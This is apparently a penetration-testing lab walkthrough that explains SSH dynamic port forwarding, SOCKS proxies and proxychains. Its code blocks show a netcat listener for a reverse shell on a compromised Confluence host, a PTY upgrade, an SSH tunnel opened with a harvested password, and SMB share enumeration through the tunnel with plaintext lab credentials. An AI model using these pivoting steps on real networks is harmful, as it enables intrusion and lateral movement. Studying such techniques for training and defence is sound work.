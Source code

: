 **Local port forwarding can only connect to one specific destination per SSH connection**. With **local dynamic port forwarding**, instead of connecting to just one destination, it creates a **SOCKS proxy server** on the SSH client.&#x20;

A **SOCKS proxy** works like a mailroom — it takes in network requests, reads where they need to go, and forwards them through the SSH connection to any destination the SSH server can reach. The only requirement is that the software sending the requests must be able to use SOCKS. If it isn’t, extra steps are needed to make it compatible.

In our scenario, instead of connecting directly to port `445` on `HRSHARES`, we’ll do it through our SSH SOCKS proxy. The problem is that `smbclient` doesn’t have built-in support for SOCKS proxies. Since SOCKS proxies expect traffic in a specific format, `smbclient`’s normal traffic won’t work through it. To solve this, we’ll use `proxychains` — a tool that forces other programs to send their traffic through a proxy. `proxychains` works well with most dynamically linked programs but not with statically linked ones. To use `proxychains`:

{% tabs %}
{% tab title="1. Tunelling" %}
{% code overflow="wrap" %}
```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.125.215
...
database_admin@10.4.125.215's password: sqlpass123
```
{% endcode %}
{% endtab %}

{% tab title="2. Proxychains Config" %}
```bash
$ tail -n1 /etc/proxychains.conf
socks5 192.168.125.63 9999
```
{% endtab %}

{% tab title="3. Connect" %}
{% code overflow="wrap" %}
```bash
$ sudo proxychains smbclient -L //172.16.125.217 -U hr_admin --password=Welcome1234
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.125.63:9999  ...  172.16.125.217:445  ...  OK

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk
        Users           Disk
```
{% endcode %}
{% endtab %}
{% endtabs %}
